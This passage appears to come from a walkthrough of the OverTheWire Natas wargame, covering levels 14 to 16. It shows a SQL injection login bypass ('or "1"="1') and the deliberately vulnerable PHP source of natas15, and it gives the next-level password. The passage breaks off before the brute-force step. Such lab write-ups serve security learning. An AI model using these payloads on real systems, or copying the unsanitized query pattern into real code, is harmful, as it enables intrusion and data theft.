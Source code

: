 3. Step 3 - Add the `username: anything` and `password: anything" or "1" = "1` the `$query` will become:
```sql
SELECT * FROM users where username="anything" and password="anything" or "1" = "1"
```
**By this, the WHERE condition is always true and return all rows in the table `users`.**

4. Step 4 - Submit the username and password so you can get the password for the next level.
5. Step 5 - Take the password to the next level.

**Next Level Password**

`SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

---

## Natas Level 15 → Level 16
(Updated: 14 August 2025)

**Credentials**
- **Username:** `natas15`
- **Password:** `SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

**Connection**

Level url: [http://natas15.natas.labs.overthewire.org/](http://natas15.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` and we can see the `php` code:
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```
2. Step 2 - You can see that we can just know **if the user exists** and cannot get the password directly. Therefore, we have to `brute-force` it.
3. Step 3 - Based on the idea, you can try add the `username: natas16" OR "1" = "1` we can get `This user exists.`.
